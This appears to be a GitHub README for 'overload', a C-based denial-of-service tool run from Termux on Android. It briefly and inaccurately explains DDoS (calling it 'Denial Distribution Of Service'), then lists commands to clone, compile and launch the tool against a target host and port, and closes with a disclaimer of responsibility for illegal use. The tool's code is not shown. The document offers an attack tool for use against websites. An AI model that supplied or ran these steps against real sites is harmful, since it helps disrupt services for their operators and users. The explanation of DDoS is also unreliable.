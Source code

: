 # Termux-Dos-attacker-tool 
DoS Attack Using Termux

DDos Is A Cyberattack (Denial Distribution Of Service) With the help of Ddos Attack One Can Shutdown A whole Website(if successful), In ddos Attacker makes botnet and Send programmed request to target servers

What is the `overload` Tool? This Tool is an open source DDOS Attack Tool written in C programming Language.

Usually this attack can also be done using other linux based OS.

Site Crash with Termux? Since this process is done by Telephone, that is, via Termux, the Site does not collapse easily, but when this process is performed with more than 1 person, there may be a slowdown in the Site.

Since this is a minor attack, it does not affect Large sites (Google, Facebook, etc.) Termux `overlod` installation? Download Termux from f-droid and follow those commands below

# commands⬇️

 - `apt update`
 - `apt upgrade`
 - `pkg install git`
 - `pkg install clang`
 - `git clone https://github.com/abirhosenakram/Termux-Dos-attacker-tool`
 - `cd overload`
 - `clang overload.c -o overload`
 - `./overload www.example.com 80`

   ### press `ctrl+c` to stop this tool.

# ⚠we aren't responsible for any illegal activities 
